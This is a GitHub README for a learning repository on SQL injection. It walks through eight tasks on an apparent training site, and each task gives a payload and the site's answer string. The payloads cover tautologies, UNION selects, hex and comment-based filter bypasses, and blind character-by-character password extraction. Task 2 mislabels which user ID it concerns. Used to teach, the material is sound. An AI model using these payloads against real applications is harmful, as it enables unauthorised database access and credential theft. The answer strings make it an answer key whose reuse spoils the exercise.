








# SQL Injection Learning Repository

This repository serves as a comprehensive guide to learning about SQL injection and understanding how it works. The goal is to provide detailed explanations and examples to help you grasp the concepts behind SQL injection attacks.

## What is SQL Injection?

SQL injection is a type of web application vulnerability that allows attackers to inject malicious SQL code into an application's database query. This occurs when user-supplied input is not properly validated or sanitized before being used in SQL statements.

## Contents

- [Types of SQL Injection Attacks](#types-of-sql-injection-attacks)
- [Detecting and Preventing SQL Injection](#detecting-and-preventing-sql-injection)
- [Examples of SQL Injection](#examples-of-sql-injection)
- [Additional Resources](#additional-resources)

## Types of SQL Injection Attacks

Explore various types of SQL injection attacks, such as:

- Union-based SQL injection
- Blind SQL injection
- Error-based SQL injection
- Time-based SQL injection

## Detecting and Preventing SQL Injection

Learn about best practices and techniques for detecting and preventing SQL injection vulnerabilities in your applications. This section will cover topics like:

- Input validation and sanitization
- Prepared statements and parameterized queries
- Web application firewalls
- Database security measures

## Examples of SQL Injection

This section will provide practical examples of SQL injection attacks. We'll present vulnerable code snippets and demonstrate how an attacker can exploit them. It's important to note that these examples should only be used for educational purposes and must not be deployed in a production environment.

## Task 1: Retrieve Password for User with ID 12


To accomplish this, you need to execute the following SQL query against the database:

```
SELECT pass FROM users WHERE id = 12;
```
Upon executing the query, you will retrieve the password for the user with id=12, which is "QwErTy".

---
## Task 2: Retrieve Password for User with ID 9


To retrieve the password, you need to input a specific value that exploits the SQL injection vulnerability. Use the following command:

```
' or '1'='1
```
Upon executing the query, you will retrieve the password for the user with id=12, which is "secreto".
In SQL, the condition 1=1 is always true, so this modification effectively bypasses the original WHERE clause and retrieves all records from the users table.

---
## Task 3: Retrieve Password for User with ID 13


To retrieve the password, you can use the following command:
```
' or 1=1#
```
`OR 1=1` is used to make the first part of the query true, which allows bypassing the login condition.

`#` is used to comment out the rest of the query to prevent any syntax errors.
Upon executing the query, you will retrieve the password for the user with id=13, which is "iwanttogo4".

---

## Task 4: Extracting Password Using UNION


The goal is to retrieve data from the `secret` table where the field `ggg` is set to `'abc'` by using a UNION command. The initial SQL query given is:
```
' or 1=1 UNION SELECT * FROM secret WHERE ggg='abc'#
```

This modified query will perform a UNION operation between the users table and the secret table, allowing you to retrieve the data from the secret table where ggg='abc'.

Upon executing the query, you will retrieve the answer "super-secret-data".

---

## Task 5: Retrieving Password using UNION


To retrieve the password from the `secret` table using the UNION command, you can modify the query as follows:
```
' or 1=1 UNION SELECT *,1 FROM secret #
```

By injecting the UNION command and selecting the appropriate columns (1), you can fetch the `pass` field from the `secret` table.

Upon executing the query, you will retrieve the answer "thisisapass232".

---

## Task 6: Exploiting SQL Injection


1. Visit a website that converts text to hex format and convert the word "god" to hex.
2. Use the following SQL injection command:
```
-1 OR login=0x676F64#
```

By following these steps, you can bypass the filtering and retrieve the password for the user with the login 'god'.

Upon executing the query, you will retrieve the answer "ivarywantlevel7".

---

## Task 7:


1. Convert the word "gentoo" to its hexadecimal representation using an online tool or website. Let's assume it becomes "67656E746F6F" in hexadecimal.

2. Craft the following SQL injection command:

```
-1/**/OR/**/login/**/like/**/0x2567656E746F6F25#
```
* The /**/ sequence represents a space. It's used to bypass filters that may be in place to block spaces in the input.
* The "LIKE" keyword is used to perform a pattern match comparison. In this case, we want to match the login column with a specific pattern.
* The "0x2567656E746F6F25" is the hexadecimal representation of the string "gentoo". By using hexadecimal representation, we bypass the filtering of certain characters like single quotes ('), which are commonly used for string literals in SQL.

Upon executing the query, you will retrieve the answer "level8please".

---

## Task 8: Extracting Password Using SQL Injection

To extract the password character by character, we can use a series of SQL injection queries. Each query retrieves the ASCII value of a specific character in the password using the `MID` function.

Here is the step-by-step solution:
1. Inject the following string as the value of $text in the query:
```
0 or id <= (SELECT ASCII(MID((SELECT pass from users WHERE login='fast'), 1,1)))
```
This query retrieves the ASCII value of the first character of the password. In this case, the ASCII value is 57, which corresponds to the character "9".

2. Repeat the above step for the remaining characters of the password, incrementing the third argument of the MID function:
```
0 OR id <= (SELECT ASCII(MID((SELECT pass FROM users WHERE login='fast'), 2, 1)))
0 OR id <= (SELECT ASCII(MID((SELECT pass FROM users WHERE login='fast'), 3, 1)))
...
0 OR id <= (SELECT ASCII(MID((SELECT pass FROM users WHERE login='fast'), 9, 1)))
```
3. Then go to `ASCII to text` site and decrypt password

Upon executing the query, you will retrieve the answer "9levlpass".

---

## Additional Resources

- [learn sql injection site](https://sql.training.hackerdom.ru)
- [youtube video about sql injection](https://www.youtube.com/watch?v=p3DhMUXbFSg)
---

Feel free to modify this README.md file as you progress in your SQL injection learning journey. Add your own notes, code snippets, and findings to keep track of your progress and share your knowledge with others.

Remember to always perform ethical hacking and avoid using your newfound skills for any malicious or illegal activities. Stay curious and continue learning!

Happy hacking!
